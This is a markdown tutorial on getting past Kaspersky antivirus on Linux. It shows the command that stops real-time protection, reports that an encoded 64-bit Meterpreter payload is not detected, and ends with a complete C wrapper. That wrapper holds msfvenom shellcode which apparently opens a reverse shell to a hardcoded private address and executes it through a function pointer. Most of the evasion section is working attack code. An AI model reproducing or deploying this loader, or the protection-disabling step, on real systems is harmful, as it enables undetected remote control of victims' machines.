




## What is Kaspersky?
Kaspersky is a well-known and widely-used vendor for antivirus products and as such, provides a good baseline for testing antivirus protections on Linux systems.
Kaspersky's Endpoint Security product, by default, enables real-time protection.

We can turn Kaspersky off using the kesl-control utility. We need to use the --stop-t flag, which stops a specified task number.
```sh
sudo kesl-control --stop-t 1
```

To test if Kaspersky really works, we can test the [EICAR file](https://www.eicar.org/?page_id=3950). 
This file is used by antivirus vendors to test the detection capabilities of their products.

To perform the scan, we can run the kesl-control utility as before, but this time with the --scan-file flag, which specifies a file to scan for viruses.
```sh
sudo kesl-control --scan-file ./eicar.txt
```



We can view the name of the detected infection by querying Kaspersky's event log with the following command:
```sh
sudo kesl-control -E --query | grep DetectName
```
(We use grep to filter on "DetectName" to display the names of the detected malware.)



The resulting DetectName entry states that Kaspersky detected the EICAR test file, which is what we were initially scanning.

We can now proceed to create a 32-bit meterpreter elf shell file, and scan it to see if it gets detected.


A 32 bit encoded meterpreter shell yields the same result.

However, a 64-bit Meterpreter payload encoded with the x64/zutto_dekiru encoder is not detected by the AV:


To make this even better, we can create a C wrapper program for our shellcode.
We will start by use a few _include_ statements to access functions included in the standard c libraries.
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
```

The next section is an unsigned character array variable called _buf_ that contains our shellcode output in C format from msfvenom.
```C
unsigned char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x00\x50\xc0\xa8"
"\x31\x87\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";
```

The final section is the _main_ function.
This contains the content of our program and is run when our program starts.
The _main_ function takes two arguments, an integer called _argc_, which stores how many arguments are passed to the program. 
and one called _argv_, which is an array of strings containing the actual values of the arguments passed to the program.
Inside our _main_ function, 
1.  We are defining a function pointer called _ret_.
2. The _ret_ function takes in no arguments (as indicated by the empty parentheses to the left of the equals sign).
3. The _int_ on the left indicates that our function returns an integer value.
4. On the right of the equals sign, we have the name of our shellcode variable, _buf_, but with some elements within parentheses before it
5. The parentheses and their contents just indicate that we're _casting_ our _buf_ variable to be a function pointer.
6. The last line of our _main_ function just takes the function pointer we've created (called _ret_) and calls the function it points to, which is our shellcode.
```C
int main (int argc, char **argv) 
{
	// Run our shellcode
	int (*ret)() = (int(*)())buf;
  	ret();

}
```
